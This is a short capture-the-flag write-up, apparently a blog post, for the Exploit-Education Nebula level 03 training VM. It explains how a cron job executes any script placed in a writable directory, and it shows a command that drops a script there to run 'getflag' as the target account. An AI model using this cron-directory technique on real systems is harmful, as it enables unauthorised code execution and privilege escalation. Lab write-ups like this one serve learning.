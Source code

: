 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 03"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 3](https://exploit.education/nebula/level-03/)

## Challenge 
    
Check the home directory of `flag03` and take note of the files there.
There is a `crontab` that is called every couple of minutes.
Crontab is a service that run periodically. In this example the crontab executes the contents of any file inside
crontab.d directory

## Vulnerability
We can run any commands by writing the commands to a file in the crontab directory and writing the output to a file
``` bash
level03@nebula:echo 'getflag >>/tmp/flag.txt' > run.sh
level03@nebula:/tmp$ ls
flag.txt  VMwareDnD  vmware-root
level03@nebula:/tmp$ cat flag.txt
You have successfully executed getflag on a target account
```
### Solved

